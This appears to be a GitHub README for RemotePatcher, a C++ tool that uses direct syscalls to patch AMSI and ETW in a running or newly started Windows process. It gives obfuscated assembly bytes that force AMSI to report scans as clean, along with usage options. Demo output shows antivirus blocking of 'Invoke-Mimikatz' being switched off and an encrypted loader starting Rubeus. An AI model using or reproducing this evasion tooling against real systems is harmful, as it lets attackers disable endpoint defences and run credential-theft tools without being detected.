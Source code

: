 # RemotePatcher
RemotePatcher is a tinny C++ program that patch AMSI/ETW for remote process via direct syscall. I wrote this to practice C++ programming skill and implement something with [SysWhispers3](https://github.com/klezVirus/SysWhispers3).



## A Little Twist

@RastaMouse's assembly code that commonly used

```
mov eax, 0x80070057
ret
```

Make a bit calculation but still do the same which return AMSI_RESULT_CLEAN

```
xor    eax,eax
add    eax,0x7dfdfe4e
add    eax,0x02090209
ret
```

Convert aessmbly code to hex byte array [here](https://defuse.ca/online-x86-assembler.htm#disassembly)



## Usage

```
cmd> .\RemotePatcher.exe -h
RemotePatcher
More info: https://github.com/Hagrid29/RemotePatcher/
Options:
  --exe "[cmd]" the program that will be executed and patched
  --pid [pid]   the process ID that will be patched
  -na           to NOT patch AMSI
  -ne           to NOT patch ETW
  -ao           to patch AmsiOpenSession instead of AmsiScanBuffer
  -l            to load amsi.dll
```

**Patch exiting process**

```
PS> "Invoke-Mimikatz"
At line:1 char:1
+ "Invoke-Mimikatz"
+ ~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS> $pid
9756
PS> .\RemotePatcher.exe --pid 9756 -l
[+] Patched etw!
[+] Patched amsi!
PS> "Invoke-Mimikatz"
Invoke-Mimikatz
```

**Start a new program**

CSLoader.exe is a C# binary of [NetLoader](https://github.com/Flangvik/NetLoader) with AMSI/ETW patch functions removed.

```
.\RemotePatcher.exe --exe ".\CSLoader.exe --path rubeus.txt --key mykey --args hash /password:aaa"
[+] Patched etw!
[+] Patched amsi!
[+] Decrypting using key 'mykey'
[+] PATH : ru.txt
[+] Arguments : hash /password:aaa
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : aaa
[*]       rc4_hmac             : E24106942BF38BCF57A6A4B29016EFF6

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!
```



## References

* https://rastamouse.me/memory-patching-amsi-bypass/
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/
* https://github.com/klezVirus/SysWhispers3


